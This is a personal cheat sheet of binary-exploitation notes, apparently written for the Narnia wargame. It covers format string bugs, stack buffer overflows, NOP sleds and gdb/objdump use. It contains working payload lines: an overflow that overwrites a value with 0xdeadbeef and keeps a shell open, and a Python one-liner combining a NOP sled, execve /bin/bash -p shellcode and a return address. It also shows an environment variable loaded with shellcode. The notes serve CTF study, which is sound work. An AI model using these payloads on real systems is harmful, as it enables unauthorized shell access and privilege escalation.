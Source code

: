 # Reverse engineering(pwn) : 
	## basic
		--> Analyzing the source code
		--> ltrace : will run file in binary until it exits
		--> value not address : 0x41414141--> AAAA | 0x42424242 --> BBBB|  0x90c90c90c --> \x90
		--> GOT (Global offset table) 
		--> PLT (procedure Linkage Table) 
	## Format string bug : 
		--> %x : reads and print the value from the current buffer pointer
		--> %n : --> reads the value stored in the current buffer pointer 
			 --> write to that memory location the number of characters already printed
		--> %s: To specify strings
		--> %d: To specify integers
		--> %f: To specify floats
		--> %u: To specify unsigned integers
		--> %p: To specify pointers
		--> %x: To print the hex value
		
	## buffer overflow
		--> Low Memory Addresses (0x0000) --> HIgh Memory Addressees(0xFFFF)
		--> to change higer memory
			--> as function --24byte | long(8 byte) -- char(20 byte) 
				--> full in char first then can go to long 
				
		--> echo -e(escape) "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde" have to reverse (0xdeadbeddf)
		--> (echo -e "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde"; cat;) |./narnia0
			--> create a command group ( command 1 ; command 2; )
			--> add cat to keeps the command shell open //system(“/bin/sh”)
		--> test :r $(python3 -d 'print("A")*300')
		--> check shell-code bytes in size : 
			--> /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300 (300 number of byte)
			--> r $(python3 -c 'print("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")')
			--> /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x41386941
		
		 --> NOP sled :	
			--> use NOP sled(\x90) replace shell-code bytes + EIP bytes
			--> NOP sled is used to direct the CPU’s instruction execution flow to a desired destination
			--> as r $(python3 -c 'print("A"*132+"B"*4)') :  
				--> 132 - shell code byte (33) --> 99 // eip : Ox42424242 (BBBB)
			
		--> bug : 0x90c290c2 -- python3 UTF error --> shuold be 0x90909090
			--> 'import sys; sys.stdout.buffer.write(b"A")'
			--> r $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"*99 + b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" +b"\x70\xd7\xff\xff")')
			
			
	## Environment variable (Env-Variable)  :
		--> expecting the environment variable (global) EGG to contain data
			--> export EGG=cd
			--> echo $EGG
			---> export EGG=`perl -e 'print "\x31...\x80"'`
		
	## Shellcode: 
		--> resource : 
			--> http://shell-storm.org/shellcode/index.html
				--> uname -a  --> for OS so any x86 or x86_64 
			
			--> https://github.com/7feilee/shellcode/tree/master/Linux/x86 
				-->https://github.com/7feilee/shellcode/blob/master/Linux/x86/execve(-bin-bash%2C_%5B-bin-sh%2C_-p%5D%2C_NULL).c
		***work		--> \x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80
				--> export EGG=$(echo -e "\x6a..\x80")
				
		--> couter shellcode byte :
				--> delecte indent : sed -i 's/^[[:space:]]*//g' shellcode
				--> ./shellcode_byte_counter.sh SHELLCODE_FILE

				
	--> Segmentation fault :
		--> gbd  :  debug the binary 
			--> gdb ./narnia1

			--> disassemble main // disassemble vuln(function name)
				--> print out the memory addresses and assembly code
				--> for everything happening in the main() function 
			--> run // run program
			--> set breakpoint : break  *0x080491e1 
				--> 25 values that set for the eax registe :  x/25x $eax  
					--> convert value from hex to ascii
				--> c : Continuie
			--> info registers : show registers --> eip 

			--> Stack Pointer (ESP)  : x/300wx $esp
				--> filled with \x90 --> find a address which 0x90909090
			--> p system : -->find a address than use system() function 
		
			
			--> esp vs eap vs eip
			
		--> objdump
			--> USEAGE : 
				--> listing headers for an executable
				--> disassembling an executable  
				--> display debug information.
			--> objdump -d -M intel /narnia/narnia3
				 -d  (disassemble the binary) -M (set our disassembly flavor to  intel )
			--> <main> function :
				--> DWORD PTR [ebp-0x18],0x7665642f
		











